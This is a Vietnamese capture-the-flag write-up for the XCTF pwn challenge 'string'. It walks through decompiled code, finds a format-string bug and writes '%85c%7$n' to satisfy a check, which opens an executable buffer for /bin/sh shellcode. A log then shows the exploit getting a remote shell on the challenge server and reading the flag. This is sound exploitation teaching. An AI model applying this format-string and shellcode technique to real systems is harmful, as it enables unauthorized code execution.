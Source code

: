 # XCTF - PWN Exercise - string

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/9_string λ checksec string 
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/9_string/string'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Vì code bài này khá dài nên mình sẽ không để toàn bộ code decompiler ở đây mà sẽ đi vào từng functions và phân tích chức năng và liên hệ giữa các functions qua trình dịch ngược IDA64 từ đó đưa ra khai thác. Bắt đầu từ hàm `main`.

```c
#include<stdio.h>

...

__int64 __fastcall main(int a1, char **a2, char **a3)
{
  _DWORD *v4; // [rsp+18h] [rbp-78h]

  setbuf(stdout, 0LL);
  alarm(0x3Cu);
  sub_400996(60LL);

  v4 = malloc(8uLL);
  *v4 = 68;
  v4[1] = 85;

  puts("we are wizard, we will give you hand, you can not defeat dragon by yourself ...");
  puts("we will tell you two secret ...");
  printf("secret[0] is %x\n", v4);
  printf("secret[1] is %x\n", v4 + 1);
  puts("do not tell anyone ");

  sub_400D72(v4);
  
  puts("The End.....Really?");
  return 0LL;
}
```

Chúng ta quan tâm tới con trỏ v4 được cấp phát động, `v4 = 68` và `v4[1] = 85` và tương ứng với `secret[0]` và `secret[1]` được in ra là địa chỉ của `v4[0]` và `v4[1]`. Tiếp theo là hàm `sub_400D72` với đối số là v4.

```c
#include<stdio.h>
...
unsigned __int64 __fastcall sub_400D72(__int64 a1)
{
  char s[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("What should your character's name be:");
  _isoc99_scanf("%s", s);
  
  if ( strlen(s) <= 0xC )
  {
    puts("Creating a new player.");
    sub_400A7D();
    sub_400BB9();
    sub_400CA6(a1);
  }
  else
  {
    puts("Hei! What's up!");
  }
  return __readfsqword(0x28u) ^ v3;
}
...
```

Nhập `s` có độ dài nhỏ hơn 0xC, sau đó ta lần lượt phân tích ba hàm.

```c
#include<stdio.h>
...
unsigned __int64 sub_400A7D()
{
  char s1[8]; // [rsp+0h] [rbp-10h] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts(" This is a famous but quite unusual inn. The air is fresh and the");
  puts("marble-tiled ground is clean. Few rowdy guests can be seen, and the");
  puts("furniture looks undamaged by brawls, which are very common in other pubs");
  puts("all around the world. The decoration looks extremely valuable and would fit");
  puts("into a palace, but in this city it's quite ordinary. In the middle of the");
  puts("room are velvet covered chairs and benches, which surround large oaken");
  puts("tables. A large sign is fixed to the northern wall behind a wooden bar. In");
  puts("one corner you notice a fireplace.");
  puts("There are two obvious exits: east, up.");
  puts("But strange thing is ,no one there.");
  puts("So, where you will go?east or up?:");
  while ( 1 )
  {
    _isoc99_scanf("%s", s1);
    if ( !strcmp(s1, "east") || !strcmp(s1, "east") )
      break;
    puts("hei! I'm secious!");
    puts("So, where you will go?:");
  }
  if ( strcmp(s1, "east") )
  {
    if ( !strcmp(s1, "up") )
      sub_4009DD();
    puts("YOU KNOW WHAT YOU DO?");
    exit(0);
  }
  return __readfsqword(0x28u) ^ v2;
}
...
```

Hàm thứ nhất `sub_400A7D`, chỉ cần nhập `east` để đi tiếp đến các hàm sau.

```c
#include<stdio.h>
...
unsigned __int64 sub_400BB9()
{
  int v1; // [rsp+4h] [rbp-7Ch] BYREF
  __int64 v2; // [rsp+8h] [rbp-78h] BYREF
  char format[104]; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 v4; // [rsp+78h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  v2 = 0LL;
  puts("You travel a short distance east.That's odd, anyone disappear suddenly");
  puts(", what happend?! You just travel , and find another hole");
  puts("You recall, a big black hole will suckk you into it! Know what should you do?");
  puts("go into there(1), or leave(0)?:");
  _isoc99_scanf("%d", &v1);
  if ( v1 == 1 )
  {
    puts("A voice heard in your mind");
    puts("'Give me an address'");
    _isoc99_scanf("%ld", &v2);          
// nhap 1 dia chi tai v2 o day, sau do thay doi gia tri dc luu tru trg dia chi nay thong qua lo hong chuoi dinh dang
    puts("And, you wish is:");
    _isoc99_scanf("%s", format);
    puts("Your wish is");
    printf(format);
    puts("I hear it, I hear it....");
  }
  return __readfsqword(0x28u) ^ v4;
}
...
```

Hàm thứ hai `sub_400BB9`, sau khi nhập `1` là giá trị của `v1` ta thấy `printf(format)` => chúng ta có thể sử dụng lỗ hổng kiểu chuỗi định dạng. Chúng ta có thể nhập một địa chỉ tại `v2` ở trên, và sau đó thay đổi giá trị được lưu trữ trong địa chỉ này thông qua lỗ hổng chuỗi định dạng đối với chuỗi kí tự `format`.

```c
#include<stdio.h>
...
unsigned __int64 __fastcall sub_400CA6(_DWORD *a1)
{
  void *v1; // rsi
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("Ahu!!!!!!!!!!!!!!!!A Dragon has appeared!!");
  puts("Dragon say: HaHa! you were supposed to have a normal");
  puts("RPG game, but I have changed it! you have no weapon and ");
  puts("skill! you could not defeat me !");
  puts("That's sound terrible! you meet final boss!but you level is ONE!");
  if ( *a1 == a1[1] )
  {
    puts("Wizard: I will help you! USE YOU SPELL");
    v1 = mmap(0LL, 0x1000uLL, 7, 33, -1, 0LL);
    read(0, v1, 0x100uLL);
    ((void (__fastcall *)(_QWORD))v1)(0LL);
  }
  return __readfsqword(0x28u) ^ v3;
}
...
```

Hàm thứ ba `sub_400CA6(a1)`, đối số `a1` chính là con trỏ kiểu int `v4` ở hàm main, là địa chỉ nơi lưu trữ giá trị 65. Đọc nội dung trong hàm if cụ thể là chương trình sẽ đọc 1 chuỗi bằng con trỏ `v1` sau đó sẽ trỏ tới vị trí bắt đầu của chuỗi đó => có thể sử dụng shellcode tại `v1` này. 

Vấn đề là để thực thi nội dung trong if ta cần `*a1 == a1[1]` hay chính là `v4[0] = v4[1]`. Ta thấy hàm thứ hai `sub_400BB9` có lỗi `format-string`, từ đó có thể dùng lỗi fmt để làm v4[0] và v4[1] bằng nhau. 

Bây giờ những việc cần làm.
    +) Tìm xem biến `v2` của hàm `Hàm thứ hai sub_400BB9` là parameter thứ mấy.
    +) Sử dụng lỗi `Format string` của biến `format` để ghi đè giá trị v4[0] và v4[1] bằng nhau.
    +) Gửi shellcode x86_64 nữa là có thể lấy được flag. (shellcode execve(/bin/sh, 0, 0) x86_64 có rất nhiều trên mạng).
    
```
A voice heard in your mind
'Give me an address'
128
And, you wish is:
AAAAAAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
Your wish is
AAAAAAAA-0x7fba55b82723-(nil)-0x7fba55aa3077-0xd-(nil)-0x100603018-0x80-0x4141414141414141-0x252d70252d70252d-0x2d70252d70252d70I hear it, I hear it....
Ahu!!!!!!!!!!!!!!!!A Dragon has appeared!!
```

0x80 = 128, v2 nằm ở parameter thứ 7 trên stack. Bây giờ khi nhập v2 ta sẽ nhập địa chỉ được in ra ở secret[0] - địa chỉ của v4[0], sau đó nhập chuỗi `format` là `%85c%7$n` với 85 là giá trị của `v4[1]`.

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/9_string λ python2 exploit.py 
[+] Opening connection to 111.200.241.244 on port 60918: Done
31858704
[*] Switching to interactive mode

$ ls
bin
dev
flag
lib
lib32
lib64
string
$ cat flag
cyberpeace{18a12ffd12d25b6047764f255f5fd3a1}
$  
```
